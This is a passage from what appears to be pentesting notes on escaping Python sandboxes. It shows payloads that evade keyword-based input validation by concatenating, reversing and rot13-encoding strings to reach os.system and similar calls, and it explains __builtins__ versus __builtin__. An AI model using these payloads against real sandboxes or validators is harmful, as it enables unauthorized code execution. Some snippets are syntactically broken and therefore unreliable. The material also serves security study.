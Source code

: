 ### Transform string

* You also play with transforming the string to escape harcoded input validation
  * Example, if validation check if `import os` is present or not. 
* Evasion1 : string concat at runtime after validation
  *  `a='o'\nb='s'\nimport a+b \n os.system('whoami')`
* Evasion2 : reversing the string 
  * `import('so'[::-1]).system('whoami')`
  * `eval(')"whoami"(metsys.)"so"(__tropmi__'[::-1])`
  * `exec(')"imaohw"(metsys.so ;so tropmi'[::-1])`
* Evasion3 : encoding and 'decoding at runtime'
  * Command to execute
    * `f3ck = __import__ commands` 
    * `print commands.getoutput("ls")` 
  * Evasion3 command
    * `f3ck = __import__("pbzznaqf".decode('rot_13'))` 
    * `print f3ck.getoutput('ifconfig')`

## 2. No builtins present

### \_\_builtins\_\_ vs \_\_builtin\_\_

* Information
  * `In Python 2.7.17 and 3.8.5 : __builtins__` is a library which is imported automatically which serves for builtin functions that we use in python script like len\(\), range\(\) , etc.
  * `In Python 2.7.17 : __builtin__`  is a library not imported automatically, when python code is executed, hence we need to manually import it inside python script in order to use it.
  * Generally, we will focus on restoring `__builtins__` if it is not there. Becuase if `__builtins__` is not restored, then we cannot call import `__builtin__` to import builtin.
* In python version 2.7.18
  * `__builtin__` is a module that stores all built in functions.
  * Both `__builtin__` and `__builtins__` are exactly the same
  * You could print all built in functions using `dir(__builtin__)`
  * All functions except print will work normally, to execute print normally you need to first run `from __future__ import print_function`

{% tabs %}
{% tab title="Python2" %}
![](../../../.gitbook/assets/image%20%28156%29.png)
{% endtab %}
